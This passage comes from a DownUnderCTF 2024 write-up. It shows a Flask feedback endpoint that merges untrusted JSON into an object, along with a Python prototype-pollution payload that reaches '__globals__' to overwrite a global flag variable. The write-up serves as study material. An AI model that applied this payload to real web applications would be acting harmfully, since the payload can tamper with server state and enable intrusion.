 Submitting the form will get us the following `request` and `response`.

![alt text](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/15_downunderctf_2024/image-15.png)

The code used in the feedback function actually has several interesting lines, especially the `comment`. When I first read this code, I wondered if it's possible to perform **prototype pollution** to change the `flag` variable to `true`.

```py
@app.route("/save_feedback", methods=["POST"])
@login_required
def save_feedback():
    data = json.loads(request.data)
    feedback = Feedback()
    # Because we want to dynamically grab the data and save it attributes we can merge it and it *should* create those attribs for the object.
    merge(data, feedback)
    save_feedback_to_disk(feedback)
    return jsonify({"success": "true","flag":flag}), 200
```

I saw similar lines of codes in [this](https://blog.abdulrah33m.com/prototype-pollution-in-python/) article. Thus, the following payload can be use to change the value of global variable `flag` to `true`.

```cs
{
"__class__":{
    "__init__":{
        "__globals__":{
            "flag":"true"
            }
        }
    }
}
```

